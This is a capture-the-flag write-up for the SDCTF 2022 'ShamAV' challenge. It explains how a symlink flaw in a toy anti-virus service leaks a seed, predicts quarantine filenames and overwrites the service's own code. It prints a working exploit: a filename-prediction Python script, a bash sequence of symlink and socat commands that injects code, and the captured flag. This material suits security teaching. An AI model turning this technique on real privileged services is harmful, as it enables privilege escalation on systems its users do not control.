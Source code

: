 ```yaml
---
title: "[Pwn] ShamAV [SDCTF 2022]"
date: 2022-05-09 18:39:00
---
```


# 0x0 Introduction

We just developed a new anti-virus called ShamAV. Have fun!

Connect via
socat FILE:`tty`,raw,echo=0 TCP:shamav.sdc.tf:1337

Flag path (Unix permission of flag is intended)
/home/antivirus/flag.txt

Note
Ignore directory /home/user, you don't need to access anything under it to get the flag
By k3v1n

# 0x1 Vulnerability

this challenge is basically manipulating with symbolic links. 

First bug is `os.lstat(path).st_uid != USER_UID` in `server.py`.

According to man page, `lstate()` will return the property of symbolic not the real file. 

>lstat() is identical to stat(), except that if pathname is a symbolic link, then it returns information about the link itself, not the file that the link refers to.

We can bypass this check by creating a symbolic link to the file that is not owned by us.

Second vuln is also related to symbolic links

if we have symbolic link point to anther file, overwrite this symbolic link would actually overwrite the real file.

Combine those two vuln, we can get `seed` first, then predict next filename, create symbolic link point to `server.py`.

Then, we scan our new file, which will overwrite `server.py`.

After than, we crash `server.py`, let `launcher.sh` to restart `server.py` and execute our code.

# 0x3 Walk through


## first glance
challenge only provide a host and port, no other thing. But I can get everything I need through the shell.

connect to server, firstly I checked the permission of the flag.txt. flag.txt is owned by antivirus, but didn't have any permission. So, I need find a way to change the permission and read the flag.

```
ctf@SHAMAV:~$ whoami
ctf
ctf@SHAMAV:~$ ls -al /home/antivirus
total 28
drwxr-xr-x 3 antivirus antivirus  200 May 10 04:27 .
drwxr-xr-x 5 nobody    nogroup   4096 May  4 23:22 ..
-rw-r--r-- 1 antivirus antivirus  697 May 10 04:27 av.log
---------- 1 antivirus antivirus   44 May 10 04:27 flag.txt
-rwxr-xr-x 1 antivirus antivirus  673 May 10 04:27 launcher.sh
-rw-r--r-- 1 antivirus antivirus  260 May 10 04:27 malware-hashes.txt
drwxrwxrwx 2 antivirus antivirus   40 May 10 04:27 quarantine
-rw------- 1 antivirus antivirus   45 May 10 04:27 seed
-rwxr-xr-x 1 antivirus antivirus 2643 May 10 04:27 server.py
srwxrwxrwx 1 antivirus antivirus    0 May 10 04:27 socket
```

then I looked at the `scan` file under /home/ctf/bin. uhhh, its just a script, and how `scan` works is sending file path to a socket, then retrieve result from that socket. 

```bash
# basically this file
(echo -n "file_path" | socat - "UNIX-CONNECT:/home/antivirus/socket")
```

if we scan a file, the file will be copy to `/home/antivirus/quarantine` with a random generated name. Moreover, this file is owned by `antivirus`!

```
ctf@SHAMAV:~/virus-samples$ scan phishing.py
ctf@SHAMAV:~/virus-samples$ ls -al /home/antivirus/quarantine
total 4
drwxrwxrwx 2 antivirus antivirus  60 May 10 04:37 .
drwxr-xr-x 3 antivirus antivirus 200 May 10 04:27 ..
-rw-r--r-- 1 antivirus antivirus 177 May 10 04:37 sham-av-8a8b989c85011653db080d7e26f7175c04a9772c5845884a2e86c42fb3f17df6
```

## analysis

lets analysis two file that are responsible for the antivirus system. [`server.py`](server.py) and [`launcher.sh`](launcher.sh)

**[server.py](server.py)**

- check if file is owned by `ctf`, `os.lstat(path).st_uid != USER_UID`
- copy file to `/home/antivirus/quarantine` using `shutil.copyfile(path, target_path)`. target name is determined by a seed

the check can be easily bypassed by creating a symbolic link as i mentioned in the vulnerability section


**[launcher.sh](launcher.sh)**

- start server.py
- restart server.py if server.py crash.


filename is generate by following function, so if I know the seed, I can predict the filename that will be generated in the future.

```python
def genrandom():
    global ctr
    result = hashlib.sha256(ctr.to_bytes(CTR_LENGTH, byteorder='little') + seed).hexdigest()
    ctr += 1
    return result
```

## the idea

I come up with following basic idea

1. modify `server.py` so that it execute `chmod 777 flag.txt`
2. find way to crash `server.py`
3. `launcher.sh` will execute `chmod 777 flag.txt` and I can cat flag

crash `server.py` is pretty easy, we create a symlink to `flag.txt`, and pass `flag.txt` to the server. since `flag.txt` is not readable, the program will throw an exception and crash.

modify `server.py` is bit tricky. 

In server.py, we have `shutil.copyfile(path, target_path)` that copy file. If the `target_path` exists and it is a symbolic link, this will overwrite the real file. Using this, I can overwrite `server.py`

But how can i predict the filename, I need seed to do that. 

Obtain `seed` is also easy.

although ctf user don't have read permission on `seed` file, I can "scan" `seed` file and obtain seed from the file copied by `server.py`


## final idea

1. create symlink to `seed`, send `seed` to server and get seed
2. predict next filename, create symlink point to `server.py` using that name
3. create a file and execute `chmod 777 flag.txt`, scan this file and overwrite `server.py`
4. create symlink to `flag.txt`, send `flag.txt` to server and crash the server
5. `launcher.sh` will execute code and I can cat flag.


# 0x4 Exploit

file_name_predict.py
```python
#! /usr/bin/env python3
import base64, socket, os, hashlib, shutil, sys
USER_UID = 1002
CTR_LENGTH = 256
STDIO_DEBUG = False
seed = "ZFhtPShqL2BjJQw7MwAPBjEwMolJ6qndj4v9v+2vEK8=" # seed from seed file
ctr = 0

seed = base64.b64decode(seed)

def genrandom():
    global ctr
    result = hashlib.sha256(ctr.to_bytes(CTR_LENGTH, byteorder='little') + seed).hexdigest()
    ctr += 1
    return result

print(f'/home/antivirus/quarantine/sham-av-{genrandom()}')
print(f'/home/antivirus/quarantine/sham-av-{genrandom()}')
print(f'/home/antivirus/quarantine/sham-av-{genrandom()}')
```

exploit
```bash
ln -s /home/antivirus/seed /home/ctf/seed
echo -n "/home/ctf/seed" | socat - "UNIX-CONNECT:/home/antivirus/socket"

ln -s /home/antivirus/server.py /home/antivirus/quarantine/sham-av-b5d2c8eb62cf9108369b50d1f4a5928821b2e28f3b5606009285a502c96c1a8f # the predict filename

printf "#! /usr/bin/env python3\nimport os\nos.system('chmod 777 flag.txt')" > /home/ctf/x
echo -n "/home/ctf/x" | socat - "UNIX-CONNECT:/home/antivirus/socket"

ls -al /home/antivirus/quarantine
cat /home/antivirus/server.py

ln -s /home/antivirus/flag.txt /home/ctf/flag.txt
echo -n "/home/ctf/flag.txt" | socat - "UNIX-CONNECT:/home/antivirus/socket"

ls -al /home/antivirus/
cat /home/antivirus/flag.txt
```

# 0x4 Flag

sdctf{5ymL1Nks_ar3_4_curs3d_f3a7uRe_0f_*NIX}
